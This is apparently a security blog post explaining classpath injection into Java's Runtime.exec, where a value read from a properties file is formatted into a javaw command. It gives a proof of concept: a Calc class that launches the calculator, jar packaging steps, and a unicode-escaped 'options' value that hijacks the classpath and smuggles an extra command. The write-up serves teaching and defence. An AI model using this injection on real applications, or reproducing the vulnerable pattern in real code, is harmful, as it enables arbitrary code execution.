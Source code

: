 ```yaml
---
layout: single
title: Classpath Injection in Runtime.exec via Java Properties
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.

But consider the scenario where the Java application itself is the spawned process. The following example illustrates this situation.

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();
FileInputStream fileInputStream = new FileInputStream("app.properties");

properties.load(fileInputStream);

String options = properties.getProperty("options", "");
String command = String.format("javaw  %s -cp ".;./dependencies/*\" com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

To exploit this code, it's necessary to craft your own JAR file and use it to insert the classpath as a parameter into the Java process.

Store the following example into a file named `Calc.java`, ensuring to include the package declaration at the start of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code using the -d . option, which instructs the compiler to generate the specified directory structure.

```
javac -d . Calc.java
```

When creating a .jar file, you should use the `cvfeP` option set to guide the packaging process.

```
jar cvfeP calc.jar command.injection.Calc -C . command/injection/
```

This ensures the preservation of the package structure (P), sets the entry point for meaningful manifest information (e), names the file (f), creates an archive (c), and enables verbose output (v). The key options to focus on are P for maintaining the package structure and e for specifying the entry point. Then, append the command with the jar's name (test.jar) and its entry point. Conclude by using -C . <packagename>/ to collect class files from the designated folder while maintaining the folder's structure.

Open the `calc.jar` file in a zip program to ensure that it has the following directory structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

When manually editing your manifest file, it's important to retain the newline at the end; otherwise, Java will not recognize the manifest correctly.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the configuration file (`application.properties`) of the application:

```
options=-cp\u0020\u0022C:/PATH/TO/JAR/*\u0022\u0020command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that instead of the expected program, the calculator app will launch.

Below is the value that was fed into the exec function.

```
javaw -cp "C:/PATH/TO/JAR/*" command.injection.Calc &:: -cp ".;./dependencies/*\" com.example.main.Example
```

## References

- [Command injection in Java](https://wiki.owasp.org/index.php/Command_injection_in_Java)
